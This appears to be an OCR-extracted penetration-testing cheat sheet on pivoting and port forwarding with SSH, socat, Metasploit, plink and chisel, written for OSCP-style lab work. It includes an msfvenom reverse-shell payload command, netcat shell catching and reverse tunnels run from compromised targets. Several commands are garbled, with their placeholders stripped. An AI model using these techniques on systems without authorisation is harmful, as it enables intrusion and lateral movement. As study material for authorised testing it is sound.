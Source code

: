 # **Pivoting**

```
Local port forwardingForward local port to remote hostssh  -L ::​Remote port forwardingForward remote port to local hostssh  -R ::​Dynamic portssh -D  -p  
```

SOCAT

```
socat file:`tty`,raw,echo=0 tcp-listen:8989
```

PORT FORWARDING "port to port":

\----MSF---- Most platforms

Forward: Get meterpreter session on one of the dual homed machines portfwd add -l 4445 -p 4443 -r ip Use -R to make it reverse

\----SSH---- For Linux

\~C "if you already have an SSH session"

\-R 8081:ip:80 (on my Kali machine listen on 8081, get it from 172.24.0.2:80)

:8081<------------:80 Now you can access 172.24.0.2:80, which you didn't have direct access to

\-L 8083:ip:8084 (on your machine listen on 8083, send it to my Kali machine on 8084)

:8084<------------:8083<------------:XXXX run nc on port 8084, and if ip:8083 receives a reverse shell, you will get it

For reverse shell: msfvenom -p linux/x86/shell\_reverse\_tcp LHOST=10.1.1.230 LPORT=8083 -f exe -o shell Run it on 2nd remote target to get a shell on Kali

Or if you didn't have an SSH session, then SSH to your Kali from target machine: On Kali: service ssh start "add a user, give it /bin/false in /etc/passwd" ssh - -R 12345:192.168.122.228:5986 [\[email protected\]](https://oscp.infosecsanyam.in/cdn-cgi/l/email-protection)

\---PLINK---- Just like SSH, on Windows service ssh start , and transfer /usr/share/windows-binaries/plink.exe to the target machine

On Target: plink.exe ip -P 22 -C -N -L 0.0.0.0:4445:ip:4443 -l KALIUSER -pw PASS

\---SOCAT---- For linux

Forward your 8083 to ip:443 ./socat TCP4-LISTEN:8083,fork TCP4:ip:443

\---CHISEL---- Most platforms

Remote static tunnels "port to port":

On Kali "reverse proxy listener": ./chisel server -p 8000 -reverse

General command: ./chisel client : L/R:\[YOUR LOCAL IP]:::

Remote tunnels "access IP:PORT you couldn't access before": On Target: ./chisel client ip:8000 R:127.0.0.1:8001:172.19.0.3:80

Local tunnels "listen on the target for something, and send it to us": On Target: ./chisel client 10.1.1.1:8000 9001:127.0.0.1:8003

DYNAMIC "port to any": setup proxychains with socks5 on 127.0.0.1:1080 Or set up socks5 proxy on firefox For nmap use -Pn -sT or use tcp scanner in msf

\----MSF---- Most platforms

Get meterpreter session on one of the dual homed machines Auto route to ip (multi/manage/autoroute) Start socks proxy (auxiliary/server/socks4a)

\----SSH---- For Linux

\-D1080

\---PLINK--- Just like SSH, on Windows

On Target: plink.exe ip -P 22 -C -N -D 1080 -l KALIUSER -pw PASS

\---CHISEL---- Most platforms

On Kali: ./chisel server -p 8000 -reverse

On Target: ./chisel client ip:8000 R:8001:127.0.0.1:1080 ./chisel server -p 8001 --socks5

On Kali: ./chisel client 127.0.0.1:8001 socks

